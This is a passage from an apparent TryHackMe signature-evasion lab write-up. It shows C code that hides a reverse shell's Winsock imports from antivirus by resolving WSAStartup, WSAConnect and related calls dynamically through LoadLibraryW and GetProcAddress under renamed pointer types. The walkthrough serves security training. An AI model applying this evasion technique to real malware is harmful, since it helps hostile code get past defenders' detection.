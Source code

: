 [Ws2_32.dll](/images/thm/signatureevasion/signatureevasion_6.png)
_Ws2_32.dll_

The LoadLibrary is different from task 6 because ANSI is not specified in the documentation for WSAStartup. We can suppose that the library will be loaded via Unicode strings and therfore, we will use : LoadLibraryW(L"XXXXX.dll").

LoadLibraryA - Loads library via ANSI strings <https://stackoverflow.com/questions/30699776/whats-the-difference-between-these-windows-api-signatures-in-delphi>
LoadLibraryW - Loads library via Unicode strings <https://stackoverflow.com/questions/30699776/whats-the-difference-between-these-windows-api-signatures-in-delphi>

```c
// 3. Obtain the process address of the call
myNotWSAStartup notWSAStartup = (myNotWSAStartup) GetProcAddress(hWs2_32, "WSAStartup")
```
{: .nolineno }

When this is done for every calls, we obtain the following structures definition, definition of pointers addresses and loading library :

```c
typedef int(WINAPI* myNotWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* myNotWSASocketA)(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef unsigned(WINAPI* myNotinet_addr)(const char *cp);
typedef u_short(WINAPI* myNothtons)(u_short hostshort);
typedef int(WSAAPI* myNotWSAConnect)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int(WINAPI* myNotclosesocket)(SOCKET s);
typedef int(WINAPI* myNotWSACleanup)(void);

HMODULE hWs2_32 = LoadLibraryW(L"Ws2_32.dll"); 
myNotWSAStartup notWSAStartup = (myNotWSAStartup) GetProcAddress(hWs2_32, "WSAStartup");
myNotWSASocketA notWSASocketA = (myNotWSASocketA) GetProcAddress(hWs2_32, "WSASocketA");
myNotinet_addr notinet_addr = (myNotinet_addr) GetProcAddress(hWs2_32, "inet_addr");
myNothtons nothtons = (myNothtons) GetProcAddress(hWs2_32, "htons");
myNotWSAConnect notWSAConnect = (myNotWSAConnect) GetProcAddress(hWs2_32, "WSAConnect");
myNotclosesocket notclosesocket= (myNotclosesocket) GetProcAddress(hWs2_32, "closesocket");
myNotWSACleanup notWSACleanup = (myNotWSACleanup) GetProcAddress(hWs2_32, "WSACleanup");
```
{: .nolineno }

The next step is to insert the structure definition before the function definition and the pointer address definition at the beginning of the RunShell function.

We can now replace all API call by the pointer created. I.E : 

```c
WSAStartup(MAKEWORD(2,2), &version);
```
{: .nolineno }

Becomes :

```c
notWSAStartup(MAKEWORD(2,2), &version);
```
{: .nolineno }
